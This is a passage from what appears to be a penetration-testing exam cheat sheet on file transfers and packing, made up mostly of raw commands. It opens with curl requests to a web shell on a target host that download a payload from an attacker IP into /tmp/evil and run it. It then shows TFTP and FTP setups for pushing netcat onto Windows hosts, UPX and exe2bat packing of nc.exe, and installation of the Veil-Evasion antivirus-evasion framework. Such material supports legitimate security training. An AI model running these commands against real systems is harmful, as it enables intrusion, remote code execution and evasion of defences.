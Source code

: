[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O /tmp/evil" http://$ip/files/sh.php

[curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php
curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    - TFTP

mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
EX. FROM WINDOWS HOST:
C:\Users\Offsec>tftp -i $ip get nc.exe

    - FTP

apt-get update && apt-get install pure-ftpd
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='69'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2129' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#packing-files)Packing Files

    - Ultimate Packer for eXecutables

upx -9 nc.exe

    - exe2bat - Converts EXE to a text file that can be copied and pasted

locate exe2bat
wine exe2bat.exe nc.exe nc.txt

    - Veil - Evasion Framework -https://github.com/Veil-Framework/Veil-Evasion

apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd Veil-Evasion/
cd setup
setup.sh -c
